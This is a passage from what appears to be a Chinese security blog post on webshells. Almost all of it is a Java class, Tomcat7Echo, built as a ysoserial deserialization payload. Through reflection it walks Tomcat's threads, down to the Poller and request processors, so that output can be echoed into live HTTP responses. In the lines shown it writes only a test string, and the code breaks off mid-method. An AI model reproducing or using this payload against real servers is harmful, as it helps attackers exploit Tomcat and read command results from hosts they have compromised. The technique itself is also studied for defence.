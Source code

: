 ![1](C:\Users\halo.liu\Documents\GitHub\ns1ookup.github.io\_posts\webshell\2.png)



根据上述挖掘到的执行链，构造代码集成到ysoerial中

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.tomcat.util.buf.ByteChunk;
import java.lang.reflect.Field;
import java.util.ArrayList;

public class Tomcat7Echo extends AbstractTranslet {
    public Tomcat7Echo(){
        try {
            Object obj = Thread.currentThread();
            Field field = obj.getClass().getSuperclass().getDeclaredField("group");
            field.setAccessible(true);
            obj = field.get(obj);

            field = obj.getClass().getDeclaredField("threads");
            field.setAccessible(true);
            obj = field.get(obj);

            Thread[] threads = (Thread[]) obj;
            for (Thread thread : threads) {
                if (thread.getName().contains("http-apr") && thread.getName().contains("Poller")) {
                    try {
                        field = thread.getClass().getDeclaredField("target");
                        field.setAccessible(true);
                        obj = field.get(thread);


                        field = obj.getClass().getDeclaredField("this$0");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        field = obj.getClass().getDeclaredField("handler");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        field = obj.getClass().getSuperclass().getDeclaredField("global");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        field = obj.getClass().getDeclaredField("processors");
                        field.setAccessible(true);
                        obj = field.get(obj);

                        ArrayList processors = (ArrayList) obj;
                        for (Object o : processors) {
                            try {
                                field = o.getClass().getDeclaredField("req");
                                field.setAccessible(true);
                                obj = field.get(o);
                                org.apache.coyote.Request request = (org.apache.coyote.Request) obj;

                                byte[] buf = "Test by c0ny1".getBytes();
                                ByteChunk bc = new ByteChunk();
                                bc.setBytes(buf, 0, buf.length);
```